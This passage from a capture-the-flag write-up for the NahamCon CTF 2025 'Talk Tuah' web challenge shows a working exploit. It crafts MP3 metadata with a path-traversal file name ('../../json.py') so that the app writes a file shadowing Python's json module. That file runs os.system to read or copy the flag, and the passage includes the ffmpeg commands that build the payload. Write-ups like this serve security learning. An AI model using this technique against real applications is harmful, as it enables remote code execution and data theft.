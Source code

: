 - Run `app.py`:

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|15:37:18(HKT)]
└> cd app          
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah/app)-[2025.05.27|15:37:21(HKT)]
└> python3 app.py 
Hello World from json module
Traceback (most recent call last):
[...]
  File "/usr/lib/python3/dist-packages/werkzeug/test.py", line 350, in EnvironBuilder
    json_dumps = staticmethod(json.dumps)
                              ^^^^^^^^^^
AttributeError: module 'json' has no attribute 'dumps'
```

Oh! We indeed successfully hijacked the `json` module!

Unfortunately, after playing with the metadata, I realized that the delimiter character is a null byte (`\x00`), so our payload can't contain any null byte characters:

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|15:54:36(HKT)]
└> hexedit file_example_MP3_700KB.mp3                                                      
00000000   49 44 33 03  00 00 00 00  00 6D 54 58  58 58 00 00  00 20 00 00  ID3......mTXXX... ..
00000014   00 66 6F 6F  00 62 61 72  00 41 41 41  41 41 41 41  41 41 41 41  .foo.bar.AAAAAAAAAAA
[...]
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|15:54:52(HKT)]
└> ffmpeg -i ./file_example_MP3_700KB.mp3 -f ffmetadata -y metadata.txt && cat metadata.txt
[...]
;FFMETADATA1
foo=bar
BPM (beats per minute)=120
date=2018
encoder=Lavf59.27.100
```

With that said, we can try to write `json.py`, as it doesn't contain any null bytes.

After crafting a valid Python script and metadata syntax, we have the following file, `metadata.txt`:

```python
;FFMETADATA1
command='cat /app/flag.txt'
anything=__import__('os').system(command)
'''=A
episode_name=../../json.py
A='''
```

We can then add those metadata into our original MP3 file:

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|16:29:32(HKT)]
└> ffmpeg -i file_example_MP3_700KB.mp3 -i metadata.txt -map_metadata 1 -codec copy -y output.mp3
[...]
Output #0, mp3, to 'output.mp3':
  Metadata:
    command         : 'cat /app/flag.txt > /app/static/episodes/flag.txt'
    anything        : __import__('os').system(command)
    '''             : A
    episode_name    : ../../json.py
    A               : '''
    TSSE            : Lavf59.27.100
  [...]
[...]
```
